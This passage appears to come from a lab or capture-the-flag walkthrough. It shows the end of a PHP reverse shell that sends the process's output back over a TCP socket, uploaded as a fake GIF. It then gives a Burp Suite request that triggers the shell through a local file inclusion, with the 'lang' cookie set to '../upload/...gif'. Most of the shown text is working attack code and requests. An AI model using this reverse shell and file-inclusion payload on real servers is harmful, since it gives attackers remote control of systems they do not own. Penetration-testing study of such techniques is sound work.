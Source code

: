 		// If we can read from the process's STDERR
		// send data down tcp connection
		if (in_array($pipes[2], $read_a)) {
			if ($debug) printit("STDERR READ");
			$input = fread($pipes[2], $chunk_size);
			if ($debug) printit("STDERR: $input");
			fwrite($sock, $input);
		}
	}

	fclose($sock);
	fclose($pipes[0]);
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($process);

	// Like print, but does nothing if we've daemonised ourself
	// (I can't figure out how to redirect STDOUT like a proper daemon)
	function printit ($string) {
		if (!$daemon) {
			print "$string\n";
		}
	}

	?> 




	-----------------------------6484244853519591111205641705
	Content-Disposition: form-data; name="submit"

	Upload
	-----------------------------6484244853519591111205641705--

    ```

6. If you take a look at the Burpsuite result, you'll notice the server created a link. 

    ```html
	<img src="upload/3208fd203ca8fdfa13bc98a4832c1396.gif"><br /></center>
    ```

	Try opening the file by using a Burpsuite GET request and it will dump the file as though it's a plain text file. The problem with this if you try to access the file using the browser, it will give you an error `cannot be displayed because it contains errors`. This part can be misleading if you haven't seen this type of method of bypass before because it leads you to think it's caused by the `GIF87a` header.

	In reality, if you reviewed the code carefully for the page `index.php`, you'll notice a `lang` cookie check code uses an `include` statement. This piece of code lacks file sanitation and will load a file that you want to run.

    ```shell
	POST /?page=upload HTTP/1.1
	Host: 192.168.16.129
	User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Referer: http://192.168.16.129/?page=upload
	Cookie: PHPSESSID=9vq5im5401eplh2imdb7tjoar0; lang=../upload/3208fd203ca8fdfa13bc98a4832c1396.gif
	Connection: close
	Upgrade-Insecure-Requests: 1
	Cache-Control: max-age=0
	Content-Type: multipart/form-data; boundary=---------------------------3116742302425600613338252
	Content-Length: 5838
